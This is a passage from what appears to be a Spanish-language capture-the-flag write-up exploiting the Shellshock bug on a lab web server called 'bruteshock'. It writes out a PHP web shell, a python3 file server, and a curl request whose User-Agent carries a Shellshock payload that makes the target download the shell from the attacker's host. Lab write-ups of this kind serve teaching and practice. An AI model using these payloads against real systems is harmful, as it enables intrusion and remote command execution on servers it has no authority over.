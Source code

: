 ![image-center](/assets/images/posts/bruteshock-shellshock.png){: .align-center}

Aprovecha el bug Willy!. En el ejemplo anterior estaríamos intentando enviarnos una solicitud HTTP a nuestro servidor `python3`. Es cuando el payload se ejecuta correctamente y envía una solicitud a nuestro servidor solicitando un archivo `test`

### Uploading Malicious `php`File

Aprovechando este bug podremos enviar una `reverse shell` a nuestra máquina atacante, para ello crearemos un archivo que usaremos para ejecutar comandos, nos ayudaremos de `Brupsuite` o `curl`

Archivo `rce.php`
 
~~~ bash
echo '<?php system($_GET["cmd"]); ?>' > rce.php
~~~

Modificaremos el `User-Agent` y enviaremos la siguiente solicitud, pero primero tendremos un servidor HTTP con `python3`

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Usaremos la misma solicitud HTTP que usamos como prueba de concepto y solicitaremos nuestro archivo `php` malicioso

~~~ bash
curl -IX GET http://bruteshock.dl/pruebasUltraSecretas/ -A "() { :; }; curl http://172.17.0.1/rce.php -o rce.php"
HTTP/1.1 200 OK
Date: Fri, 28 Mar 2025 18:21:31 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 1873
Content-Type: text/html; charset=UTF-8
~~~
